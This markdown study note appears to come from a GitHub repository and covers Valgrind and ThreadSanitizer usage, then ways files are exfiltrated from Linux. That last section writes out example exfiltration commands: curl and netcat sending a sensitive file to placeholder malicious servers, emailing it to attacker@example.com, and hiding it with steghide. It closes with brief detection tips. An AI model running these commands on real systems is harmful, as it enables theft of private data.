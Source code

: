 # Valgrind, Thread Sanitizer, and File Exfiltration on Linux

# **Valgrind**

### Overview

Valgrind is a programming tool for memory debugging, memory leak detection, and profiling. It is widely used for diagnosing issues in C, C++, and other low-level languages.

### Features

- **Memory Leak Detection**: Detects memory that is allocated but not freed.
- **Undefined Behavior Detection**: Identifies invalid memory access or usage.
- **Thread and Lock Analysis**: Ensures thread synchronization and proper locking mechanisms.
- **Profiling**: Offers tools like `callgrind` to profile application performance.

### Key Tools in Valgrind

- **Memcheck**: The default tool for detecting memory errors.
- **Helgrind**: Detects threading bugs, like data races.
- **Cachegrind**: Profiles the CPU cache performance.
- **Massif**: Analyzes memory usage and heap profiling.

### Installation

```c
sudo apt update
sudo apt install valgrind
```

### Basic Usage

To run a program under Valgrind:

```c
valgrind ./program

```

To use a specific tool (e.g., Memcheck):

```c
valgrind --tool=memcheck ./program
```

### Example Output

```c
==1234== Invalid read of size 4
==1234==    at 0x401B3F: main (example.c:10)
==1234==  Address 0x0 is not stack'd, malloc'd, or (recently) free'd

```

# **Thread Sanitizer (TSan)**

### Overview

Thread Sanitizer is a runtime detector for data races and other threading bugs. It is integrated into compilers like **Clang** and **GCC**.

### Features

- **Race Condition Detection**: Identifies when multiple threads access the same memory concurrently without synchronization.
- **Threading Bugs**: Detects potential issues like deadlocks or improper locking.
- **Integrated Debugging**: Works seamlessly with debugging tools and produces detailed stack traces.

### Using TSan with GCC or Clang

Compile your program with the Thread Sanitizer:

```c
gcc -fsanitize=thread -g -o program program.c

```

Run the program as usual:

```c
**./program**

```

### Example Output

```c
WARNING: ThreadSanitizer: data race (pid=12345)
  Write of size 4 at 0x7fffd4e5b4a8 by thread T1:
    #0 main example.c:10
  Previous write of size 4 at 0x7fffd4e5b4a8 by thread T2:
    #0 main example.c:15

```

### Pros and Cons

**Advantages**:

- Detects elusive threading issues that are hard to find via static analysis.
- Provides actionable stack traces for debugging.

**Limitations**:

- May produce false positives or miss issues if the program isn't thoroughly tested.
- Slows down program execution due to added instrumentation.

# **File Exfiltration on Linux**

### Overview

File exfiltration refers to unauthorized transfer of data from a system. On Linux, this is typically achieved through misconfigurations, malicious scripts, or vulnerabilities.

### Methods of File Exfiltration

**Using Command-line Tools**:

- `scp` (Secure Copy Protocol):
    
    ```c
    scp sensitive_file.txt user@remote_host:/path/to/destination
    
    ```
    
- `rsync`:
    
    ```c
    rsync -av sensitive_file.txt user@remote_host:/destination
    
    ```
    

**Network-based Exfiltration**:

- Using `curl`:
    
    ```c
    curl -X POST -F "file=@sensitive_file.txt" http://maliciousserver/upload
    
    ```
    
- Using `nc` (Netcat):
    
    ```c
    cat sensitive_file.txt | nc malicious_server_ip port
    
    ```
    

**Steganography**:

- Hiding data in images or other files using tools like `steghide`:
    
    ```c
    steghide embed -cf image.jpg -ef sensitive_file.txt
    
    ```
    

**Email-based Exfiltration**:

- Using `sendmail` or `mail` command:
    
    ```c
    echo "See attached file" | mail -s "Sensitive Data" -A sensitive_file.txt attacker@example.com
    
    ```
    

### Detection

- **Monitor Network Traffic**: Using tools like `tcpdump` or `Wireshark` to detect unusual outgoing traffic.
- **File Integrity Monitoring**: Tools like `Tripwire` can detect unauthorized file changes or access.
- **Access Control**: Restricting file access using Linux permissions (`chmod`, `chown`) and SELinux/AppArmor.
